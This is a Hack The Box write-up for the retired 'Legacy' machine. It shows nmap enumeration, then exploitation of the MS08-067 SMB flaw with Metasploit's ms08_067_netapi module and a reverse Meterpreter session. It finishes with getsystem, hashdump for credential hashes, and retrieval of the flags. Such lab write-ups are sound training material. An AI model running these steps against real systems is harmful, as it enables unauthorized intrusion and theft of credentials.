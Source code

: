 ```yaml
---
title: "Legacy HTB Writeup"
date: 2021-04-04T23:15:54+02:00
draft: false
Tags: [
	"Writeups",
	"hackthebox",
	"retired",

]
---
```

![Machine info](/images/legacy/1.png)

This machine mimics a windows legacy (windows xp). it's a straight forward one depends on a public exploit for the (MS08-067) patch leads to RCE and gets us root access directly.

enjoy..

### 1. Enumeration:
* Nmap:
  * ``$ nmap -sC -sV 10.10.10.4 -Pn``
![](/images/legacy/2.png)

The ports of interest (139, 445).
### 2. let's do a vulnerability scan on them:
  * ``$ sudo nmap -p139,445 --script vuln 10.10.10.4`` 
![](/images/legacy/3.png)

It revealed an RCE in the samba version with cve number (2008-4250) or (MS08-067) patch.

let's searchsploit it:
![](/images/legacy/4.png)

And it also has lots of exploits on [exploitdb](https://www.exploit-db.com/exploits/40279) and [rapid7](https://blog.rapid7.com/2014/02/03/new-ms08-067/).
### 3. Exploitation:
let's search for exploits on metasploit:
```yml
$ msfconsole -q  >> for quite mode openning without banner
$ search ms08-067  >> searching with the patch name
$ use exploit/windows/smb/ms08_067_netapi  >> to use the found exploit
then:
$ show options >> to see what options to customize
$ set rhosts 10.10.10.4 >> machine ip
$ set lhost 10.10.x.x >> your tunnel ip
finally:
$ run or exploit  
```
![](/images/legacy/5.png)
![](/images/legacy/6.png)

* Once we have the meterpreter session, it is slightly more difficult to use commands or enumerate which user we are as it is pre Windows XP SP2 and thus the “whoami” command does not exist yet.
* But we can either use "PsExec" to get a system shell or simply use the “getsystem” meterpreter command. also using "shell" command works fine but didn't like it.
```yml
> getsystem
> hashdump
> search -f user.txt
> sysinfo
pwd
cd ../../
cd Documents\ and\ Settings
cd john then cd Desktop
cat user.txt
```
![](/images/legacy/7.png)
![](/images/legacy/8.png)
![And here we got user.txt flag](/images/legacy/9.png)

### getting root.txt:
```yml
search -f root.txt

cd ../..
pwd > Documents\ and\ Settings again
then 
cd Administrator
cd Desktop
cat root.txt
```
![](/images/legacy/10.png)
![](/images/legacy/11.png)
![](/images/legacy/12.png)

And that's it.. hope you enjoyed..

If so Kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588).